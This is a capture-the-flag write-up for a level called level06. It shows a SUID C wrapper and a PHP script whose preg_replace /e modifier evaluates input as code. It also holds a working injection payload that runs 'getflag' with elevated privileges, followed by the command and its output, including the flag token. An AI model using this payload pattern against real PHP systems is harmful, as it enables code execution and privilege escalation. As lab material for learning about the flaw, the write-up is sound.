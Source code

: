 \- There is a 32 bits ELF executable: 'level06'
```C
int main(int argc, char **argv, char **envp)
{
	char *esi = strdup(...);
	char *ebx = strdup(...);

	if (argv[1])
	{
		free(esi);
		esi = strdup(argv[1]);

		if (argv[2])
		{
			free(ebx);
			ebx = strdup(argv[2]);
		}
	}

	gid_t gid = getegid();
	uid_t uid = geteuid();
	setresgid(gid, gid, gid);
	setresuid(uid, uid, uid);
	
	char const *command = {"/usr/bin/php", "/home/user/level06/level06.php", esi, ebx, NULL};

	execve("/usr/bin/php", command, envp);

	return 0;
}
```

\- There is also a php script: 'level06.php'
```php
#!/usr/bin/php
<?php

function y($m) { 
	$m = preg_replace("/\./", " x ", $m);  // Replace . by x
	$m = preg_replace("/@/", " y", $m);    // Replace @ by y
	return $m; 
}

function x($y, $z) { 
	$a = file_get_contents($y);     
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);    // replace [x    ] by [y($m)] 
	$a = preg_replace("/\[/", "(", $a);  // Replace [ by (
	$a = preg_replace("/\]/", ")", $a);  // Replace ] by )
	return $a; 
}

$r = x($argv[1], $argv[2]); 
print $r;

?>

Exemple => [x 1.2@3] => (x 1 x 2 y 3) 
```

---

\- Firstly, the C code set the SUID bit to the process and execute the php script.

\- The php script mostly makes replacement on strings with REGEX
- But this script uses a dangerous /REGEX/e, the /e is a modifier that allow to execute code into the regex himself. If it execute a command with higher privilege, i'll be able to get the flag.
  
----

Let's write our payload :
```
[x {${exec(getflag)}}]
```

The first function will replace ..... of  [x .......] by y() function return value and will execute the function exec(getflag) as flag06 and give us the flag:

```bash
> ./level06 /tmp/payload NULL_ARGV
> 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

Flag: wiok45aaoguiboiki2tuin6ub
```

*wiok45aaoguiboiki2tuin6ub*